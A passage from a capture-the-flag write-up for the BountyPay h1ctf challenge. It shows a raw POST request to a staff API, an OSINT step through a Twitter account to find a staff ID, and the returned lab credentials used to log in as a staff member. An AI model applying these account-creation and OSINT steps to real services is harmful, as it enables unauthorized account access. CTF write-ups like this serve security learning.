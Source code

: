 So I quickly tried something like that to use both these values:
`https://api.bountypay.h1ctf.com/api/staff?staff_id=STF:84DJKEIP38`

Mmm...same answer.
But what about a POST request?

`["Staff Member already has an account"]`

That's interesting! Unfortunately also the other staff_id returned nothing useful so honestly at this point I was stuck.

Then the following hint tweet came:
{F856245}

So let's look at this Twitter account!

Basically after some simple searches on that I found in the **Following** the account of Sandra (@SandraA76708114) that contained a photo with a new different *staff_id*...exactly what I was searching!
{F856255}

So, now trying the following request:
```
POST /api/staff HTTP/1.1
Host: api.bountypay.h1ctf.com
Connection: close
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/82.0.4078.0 Safari/537.36 autochrome/blue
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://api.bountypay.h1ctf.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
X-Token: 8e9998ee3137ca9ade8f372739f062c1
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

staff_id=STF:8FJ3KFISL3
```

We found **Sandra credentials**!
```
{
    "description": "Staff Member Account Created",
    "username": "sandra.allison",
    "password": "s%3D8qB8zEpMnc*xsz7Yp5"
}
```

As this was realted to staff, I tried to use these credentials on https://staff.bountypay.h1ctf.com/?template=login and finally reached to be logged in as Sandra.
{F856259}


## Privilege Escalation from Sandra to Marten
So in my head now the plan was to escalate from Sandra to Marten and then make the May bounty payment.
At first I thought this could be done in just one step but I was wrong :)
